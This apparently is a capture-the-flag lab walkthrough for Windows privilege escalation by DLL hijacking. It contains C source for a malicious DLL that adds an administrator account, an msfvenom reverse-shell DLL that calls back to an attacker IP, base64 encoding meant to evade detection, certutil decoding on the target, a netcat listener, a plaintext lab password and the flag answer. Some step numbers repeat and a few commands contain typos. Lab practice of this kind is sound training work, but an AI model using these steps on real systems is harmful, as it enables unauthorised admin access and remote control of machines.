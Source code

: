 Step 4. Copy the code below to hijackmeplz.c and exit

#include <windows.h>
int execCommand()
{
WinExec("cmd /C net localgroup administrators hackeradmin /add.", 1);
return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
execCommand();
return 0;
}

Step 5. Run `i686-w64-mingw32-g++ -c hijackmeplz.c -o hijackmeplz.o`

Step 6. Run `i686-w64-mingw32-g++ -shared -o hijackmeplz.dll hijackmeplz.o -Wl,--out-implib,hijackmeplz.a`

Step 7 `Run msfvenom -p windows/shell_reverse_tcp LHOST=10.50.24.96 LPORT=6262 -f dll > hijackmeplz.dll`

Step 7. Run `base64 hijackmeplz.dll > base64dll` Encodes it to base 64 to prevent detection 

Step 8. Run `xclip -sel c -i base64dll ` Copies it to clipboard

Step 8. Go to the windows machine and open notepad. 

Step 9. Paste the copied base64dll and save it as base64.txt in documents. 

Step 10. Go to the location of the text `cd C:\Documents\`

Step 11. Generate a dll -> C:\Users\student.DESKTOP-51TGRU5\Documents>`certutil -decode base64.txt hijackmeplz.dll`

Step 12. Go to the location of the C:\MemoryStatus\ folder where the MemoryStatus file is located and copy it from the documents folder to here. Copy the dll here. 

Step 13. On your linops machine, open the netcat listener -> `nc lvn 6262` using the port entered in step 7 above

Step 14. Restart the target windows machine

Step 15. Go to the linops terminal that ran `xfreerdp /v:127.0.0.1:36364 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard` and keep running that until a connection is established. 

Step 16. A successful connection should log you in as an admin and presences a command window

Step 17. run `whoami` to confirm escalation privileges

Step 18. Run `cd C:\Users` to go to users directory 

Step 19. run `dir` to see open folders, admin is open, cd to admin and then to desktop to find the flag `cd Admin\Desktop` 

Step 20. run `dir` to see the open files and flag.txt is there. Run `type flag.txt` to find the contents of the flag

Ans -> xgrMY0JebCPgTE2Rdh3L

